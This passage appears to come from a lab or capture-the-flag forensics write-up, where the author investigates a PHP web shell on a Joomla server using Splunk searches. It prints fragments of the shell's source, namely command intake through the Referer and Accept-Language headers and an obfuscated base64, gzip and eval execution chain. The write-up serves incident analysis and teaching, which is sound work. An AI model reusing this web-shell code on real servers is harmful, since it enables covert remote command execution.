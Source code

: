 We can conclude that the attacker sends his command via HTTP headers, specifically HTTP_REFERRER and HTTP_ACCEPT_LANGUAGE.

So I looked for a pattern related to those headers in the next few lines of code:

```php
    $u = parse_url($rr);
    parse_str($u["query"], $q);
    $q = array_values($q);
    preg_match_all("/([\\w])[\\w-]+(?:;q=0.([\\d]))?,?/", $ra, $m);
    if ($q && $m) {
        ...
    }
```

So there are 2 conditions:

1. The REFERRER url must contain query parameters
2. The ACCEPT_LANGUAGE must contain `;q=0`

Which led me to my next search:

```
    index="botsv1" sourcetype="stream:http" dest_ip="192.168.250.70" uri="/joomla/agent.php"  http_referrer="*?*" accept_language="*;q=0*"
    | sort 0 + _time
    | eval payload = http_referrer + " --> " + accept_language
    | table payload
```

Now we have a list of all commands sent.

![Commands](./commands.png)

### How commands were executed?

Following the code, we can see data manipulation (which to be honest, don't tells me much...).
From my knowledge about web shells, I looked for `@eval` function, which I found here:

```php
    @eval(
        @gzuncompress(
            @x(
                @base64_decode(preg_replace(array("/_/", "/-/"), array("/", "+"), $ss($s[$i], 0, $e))),
                $k
            )
        )
    );
```
